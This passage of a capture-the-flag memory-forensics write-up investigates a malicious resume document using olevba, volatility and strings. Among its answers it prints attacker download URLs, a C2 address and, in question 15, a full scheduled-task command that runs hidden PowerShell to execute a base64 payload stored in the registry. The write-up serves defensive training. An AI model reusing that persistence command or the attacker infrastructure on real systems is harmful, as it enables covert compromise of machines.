5. What URL is used to download the stage 2 payload based on the document's macro?

    We can use `olevba` to analyze document's macro and find the URL used to download the stage 2 payload.

    ```bash
    olevba Resume_WesleyTaylor.doc
    ```
    The answer is `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png`.

6. What is the name of the process that executed the newly downloaded stage 2 payload?

    We can use the previous olevba output. The answer is `wscript.exe`.

7. What is the full file path of the malicious stage 2 payload?

    We can use the previous olevba output. The answer is `C:\ProgramData\update.js`.

8. What is the PID of the process that executed the stage 2 payload?

    We can use `volatility` to analyze the memory dump and find the PID of the process that executed the stage 2 payload. In here, i used flag `windows.pstree` to find the process tree and find the relevant process.

    ```bash
    vol -f WKSTN-2961.raw windows.pstree
    ```
    

    The answer is `4260`.

9. What is the parent PID of the process that executed the stage 2 payload?

    We can use the previous image to find the parent PID of the process that executed the stage 2 payload. The answer is `1124`.

10. What URL is used to download the malicious binary executed by the stage 2 payload?

    In the previous, we have know that it used `boogeymanisback.lol` to download the malicious file. We can use `strings` to analyze the memory dump and filter the string with `boogeymanisback.lol` to find the URL used to download the malicious binary executed by the stage 2 payload.

    ```bash
    strings WKSTN-2961.raw | grep "boogeymanisback.lol"
    ```
    The answer is `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe`.

11. What is the PID of the malicious process used to establish the C2 connection?

    In the previous image result, we can see that there is a process with the name `updater.exe` that has similar name with the download binary in the previous question. I assume this process is used to establish the C2 connection. So, the answer is `6216`.

12. What is the full file path of the malicious process used to establish the C2 connection?

    First, we need to dump the process with PID `6216` by using `volatility` with flag `windows.memmap`.

    ```bash
    vol -f WKSTN-2961.raw windows.memmap --pid 6216 --dump > /dev/null
    ```
    Then, we can check the dumped file with `strings` with the keyword `updater.exe` to find the full file path of the malicious process used to establish the C2 connection.

    ```bash
    strings pid.6216.dmp | grep updater.exe
    ```
    The answer is `C:\Windows\Tasks\updater.exe`.

13. What is the IP address and port of the C2 connection initiated by the malicious binary? (Format: IP address:port)

    We can filter the previous dump to find `http` or `https` string.

    ```bash
    strings pid.6216.dmp | grep -E "http://|https://"
    ```
    We can find the URL with the IP address and port of the C2 connection initiated by the malicious binary. The answer is `128.199.95.189:8080`.

14. What is the full file path of the malicious email attachment based on the memory dump?

    We can refer to the previous image. We can see that there is a `WINWORD.exe` process which the child process of `outlook.exe`. We can dump it with `volatility` with flag `windows.memmap`.

    ```bash
    vol -f WKSTN-2961.raw windows.memmap --pid 1124 --dump > /dev/null
    ```
    Then, we can check the dumped file with `strings` with the keyword `Resume` to find the full file path of the malicious email attachment based on the memory dump. The answer is `C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc`.

15. The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?

    I have tried to strings `updater.exe` process dump with filter `schtasks` but i didnt get the answer. So i tried to strings the `WKSTN-2961.raw`. The answer is `chtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'`.